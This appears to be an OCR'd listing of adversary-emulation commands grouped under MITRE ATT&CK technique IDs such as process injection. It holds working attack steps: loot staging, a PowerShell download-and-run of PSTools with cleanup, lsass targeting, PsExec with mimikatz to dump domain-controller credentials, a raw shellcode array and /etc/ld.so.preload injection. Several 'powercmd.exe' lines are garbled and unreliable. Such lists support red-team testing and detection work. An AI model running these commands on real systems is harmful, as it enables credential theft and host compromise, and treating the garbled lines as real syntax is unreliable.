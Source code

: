 * ps >> /tmp/loot.txt
ps aux >> /tmp/loot.txt
* tasklist
* $ps_url = "https://download.sysinternals.com/files/PSTools.zip";
$download_folder = "C:\Users\Public\";
$staging_folder = "C:\Users\Public\temp";
Start-BitsTransfer -Source $ps_url -Destination $download_folder;
Expand-Archive -LiteralPath $download_folder"PSTools.zip" -DestinationPath $staging_folder;
iex $staging_folder"\pslist.exe" >> $env:LOCALAPPDATA\output.log;
Remove-Item $download_folder"PSTools.zip";
Remove-Item $staging_folder -Recurse
* acrnctl list
* $owners = @{};
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user};
$ps = get-process | select processname,Id,@{l="Owner";e={$owners[$_.id.tostring()]}};
$valid = foreach($p in $ps) { if($p.Owner -eq $env:USERNAME -And $p.ProcessName -eq "svchost") {$p} };
$valid | ConvertTo-Json
* $ps = get-process | select processname,Id;
$valid = foreach($p in $ps) { if($p.ProcessName -eq "lsass") {$p} };
$valid | ConvertTo-Json
* ps
* get-process
* ps aux | grep #{host.user.name}
* $owners = @{};
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user};
$ps = get-process | select processname,Id,@{l="Owner";e={$owners[$_.id.tostring()]}};
foreach($p in $ps) {
    if($p.Owner -eq "#{host.user.name}") {
        $p;
    }
}
* get-process >> $env:APPDATA\vmtools.log;
cat $env:APPDATA\vmtools.log
* ps aux
* tasklist
* Get-Process
* tasklist /m  >> $env:APPDATA\vmtool.log;
cat $env:APPDATA\vmtool.log
##T1055: Process Injection
* C:\PSTools\PsExec.exe /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
* #{psexec_path} /accepteula \\DC1 -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
* #{psexec_path} /accepteula \\#{machine} -c %tmp%\mimikatz\x64\mimikatz.exe "lsadump::lsa /inject /id:500" "exit"
* 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3
* powercmd.exe /c/code_execution/invoke_reflectivepeinjection
* powercmd.exe /c/code_execution/invoke_cmd.exe /ccode
* powercmd.exe /c/code_execution/invoke_cmd.exe /ccodemsil
* powercmd.exe /c/credentials/credential_injection
* powercmd.exe /c/management/psinject
* powercmd.exe /c/management/reflective_inject
* powercmd.exe /c/management/shinject
* python/management/osx/cmd.exe /ccodeinject64
* echo #{path_to_shared_library} > /etc/ld.so.preload
* ```
* echo /home/$USER/random.so > /etc/ld.so.preload
##T1572: Protocol Tunneling